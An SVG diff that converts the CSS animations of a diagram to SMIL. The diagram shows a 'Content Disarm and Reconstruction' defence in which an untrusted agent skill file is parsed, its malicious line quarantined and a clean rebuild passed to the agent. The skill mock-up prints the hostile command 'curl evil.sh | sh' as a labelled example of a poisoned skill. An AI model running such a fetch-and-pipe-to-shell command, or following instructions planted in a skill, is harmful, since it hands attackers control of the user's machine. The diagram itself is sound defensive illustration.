

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 360" role="img" aria-label="Content Disarm and Reconstruction: an untrusted skill is parsed into structured intent, the malicious line is dropped, the original is discarded, and a clean rebuild is the only thing that reaches the agent.">
  <defs>
    <filter id="g3" x="-60%" y="-60%" width="220%" height="220%">
      <feGaussianBlur stdDeviation="2.6" result="b" />
      <feMerge>
        <feMergeNode in="b" />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
    <style>
      text{font-family:'Segoe UI',Inter,system-ui,sans-serif;fill:#cbd5e1}
      .t{font-weight:700;font-size:19px;fill:#f1f5f9}
      .st{font-size:13px;font-weight:700}
      .sub{font-size:11px;fill:#94a3b8}
      .mono{font-family:'SFMono-Regular',Consolas,monospace;font-size:11px}
-       .mal{animation:drop 6s ease-in-out infinite}
-       @keyframes drop{0%,28%{opacity:1;transform:translateY(0)}33%,40%{opacity:1;transform:translateY(0)}55%{opacity:0;transform:translateY(26px)}100%{opacity:0;transform:translateY(26px)}}
-       .xmark{animation:xshow 6s ease-in-out infinite;opacity:0}
-       @keyframes xshow{0%,30%{opacity:0}36%,52%{opacity:1}58%,100%{opacity:0}}
-       .build{opacity:0;animation:build 6s ease-in-out infinite}
-       @keyframes build{0%,55%{opacity:0}66%{opacity:1}94%{opacity:1}100%{opacity:0}}
-       .b2{animation-delay:.25s}.b3{animation-delay:.5s}.b4{animation-delay:.75s}
-       .token{animation:flow 6s linear infinite}
-       @keyframes flow{0%{opacity:0;transform:translateX(0)}8%{opacity:1}50%{opacity:1}92%{opacity:0;transform:translateX(640px)}100%{opacity:0;transform:translateX(640px)}}
    </style>
  </defs>
  <rect width="960" height="360" fill="#020617" />
  <text x="48" y="46" class="t">Content Disarm and Reconstruction: the original never reaches the agent</text>
  <g stroke="#1e293b" stroke-width="2" marker-end="url(#a)">
    <line x1="300" y1="200" x2="360" y2="200" />
    <line x1="620" y1="200" x2="680" y2="200" />
  </g>
  <defs>
    <marker id="a" markerWidth="9" markerHeight="9" refX="6" refY="3" orient="auto">
      <path d="M0 0 L6 3 L0 6 z" fill="#1e293b" />
    </marker>
  </defs>
  <text x="170" y="96" text-anchor="middle" class="st" fill="#94a3b8">1 · UNTRUSTED SKILL</text>
  <g transform="translate(90,120)">
    <rect width="160" height="150" rx="8" fill="#0f172a" stroke="#475569" stroke-width="1.5" />
    <rect x="0" y="0" width="160" height="24" rx="8" fill="#1e293b" />
    <text x="12" y="16" class="mono" fill="#94a3b8">skill.md</text>
    <rect x="16" y="40" width="100" height="7" rx="3" fill="#334155" />
    <rect x="16" y="58" width="124" height="7" rx="3" fill="#334155" />
-     <g class="mal">
+     <g>
      <rect x="16" y="76" width="128" height="13" rx="3" fill="#5a1d1d" stroke="#f85149" />
      <text x="20" y="86" class="mono" fill="#ff7b72">curl evil.sh | sh</text>
+       <animate attributeName="opacity" values="1;1;0;0" keyTimes="0;0.40;0.55;1" dur="6s" repeatCount="indefinite" />
+       <animateTransform attributeName="transform" type="translate" values="0 0;0 0;0 26;0 26" keyTimes="0;0.40;0.55;1" dur="6s" repeatCount="indefinite" />
    </g>
    <rect x="16" y="100" width="92" height="7" rx="3" fill="#334155" />
    <rect x="16" y="118" width="116" height="7" rx="3" fill="#334155" />
  </g>
  <text x="480" y="96" text-anchor="middle" class="st" fill="#94a3b8">2 · PARSE TO INTENT, DROP THE BAD</text>
  <g transform="translate(390,120)">
    <rect width="180" height="150" rx="8" fill="#101a26" stroke="#0ea5e9" stroke-width="1.5" stroke-dasharray="5 4" />
    <text x="90" y="44" text-anchor="middle" class="sub">structured intent</text>
    <rect x="24" y="58" width="60" height="20" rx="10" fill="#0f2a3a" stroke="#0ea5e9" />
    <text x="54" y="72" text-anchor="middle" class="mono" fill="#7dd3fc">title</text>
    <rect x="96" y="58" width="64" height="20" rx="10" fill="#0f2a3a" stroke="#0ea5e9" />
    <text x="128" y="72" text-anchor="middle" class="mono" fill="#7dd3fc">steps</text>
    <rect x="24" y="86" width="80" height="20" rx="10" fill="#0f2a3a" stroke="#0ea5e9" />
    <text x="64" y="100" text-anchor="middle" class="mono" fill="#7dd3fc">allowlist</text>
-     <g class="xmark">
+     <g opacity="0">
      <rect x="116" y="86" width="44" height="20" rx="10" fill="#3a1212" stroke="#f85149" />
      <line x1="120" y1="88" x2="156" y2="104" stroke="#f85149" stroke-width="2" />
      <line x1="156" y1="88" x2="120" y2="104" stroke="#f85149" stroke-width="2" />
+       <animate attributeName="opacity" values="0;0;1;1;0;0" keyTimes="0;0.30;0.36;0.52;0.58;1" dur="6s" repeatCount="indefinite" />
    </g>
    <text x="90" y="134" text-anchor="middle" class="mono" fill="#f85149">unrecognised line → quarantined</text>
  </g>
  <text x="790" y="96" text-anchor="middle" class="st" fill="#10b981">3 · CLEAN REBUILD → AGENT</text>
  <g transform="translate(710,120)">
    <rect width="160" height="150" rx="8" fill="#0d1f14" stroke="#009966" stroke-width="1.5" />
    <rect x="0" y="0" width="160" height="24" rx="8" fill="#15301f" />
    <text x="12" y="16" class="mono" fill="#10b981">skill.rebuilt.md</text>
-     <rect class="build" x="16" y="40" width="100" height="7" rx="3" fill="#007a52" />
-     <rect class="build b2" x="16" y="58" width="124" height="7" rx="3" fill="#007a52" />
-     <rect class="build b3" x="16" y="76" width="92" height="7" rx="3" fill="#007a52" />
-     <rect class="build b4" x="16" y="94" width="116" height="7" rx="3" fill="#007a52" />
+     <rect x="16" y="40" width="100" height="7" rx="3" fill="#007a52" opacity="0">
+       <animate attributeName="opacity" values="0;0;1;1;0" keyTimes="0;0.55;0.66;0.94;1" dur="6s" repeatCount="indefinite" />
+     </rect>
+     <rect x="16" y="58" width="124" height="7" rx="3" fill="#007a52" opacity="0">
+       <animate attributeName="opacity" values="0;0;1;1;0" keyTimes="0;0.55;0.66;0.94;1" dur="6s" begin="0.25s" repeatCount="indefinite" />
+     </rect>
+     <rect x="16" y="76" width="92" height="7" rx="3" fill="#007a52" opacity="0">
+       <animate attributeName="opacity" values="0;0;1;1;0" keyTimes="0;0.55;0.66;0.94;1" dur="6s" begin="0.5s" repeatCount="indefinite" />
+     </rect>
+     <rect x="16" y="94" width="116" height="7" rx="3" fill="#007a52" opacity="0">
+       <animate attributeName="opacity" values="0;0;1;1;0" keyTimes="0;0.55;0.66;0.94;1" dur="6s" begin="0.75s" repeatCount="indefinite" />
+     </rect>
    <text x="80" y="132" text-anchor="middle" class="sub" fill="#10b981">rebuilt from clean templates</text>
  </g>
-   <circle class="token" cx="270" cy="200" r="5" fill="#0ea5e9" filter="url(#g3)" />
+   <circle cx="270" cy="200" r="5" fill="#0ea5e9" filter="url(#g3)" opacity="0">
+     <animate attributeName="opacity" values="0;1;1;0;0" keyTimes="0;0.08;0.50;0.92;1" dur="6s" repeatCount="indefinite" />
+     <animateTransform attributeName="transform" type="translate" values="0 0;640 0;640 0" keyTimes="0;0.92;1" dur="6s" repeatCount="indefinite" />
+   </circle>
  <text x="48" y="330" class="sub">The original bytes are parsed into intent and then discarded. A single unrecognised line quarantines the whole skill. Only the rebuild reaches the agent.</text>
</svg>
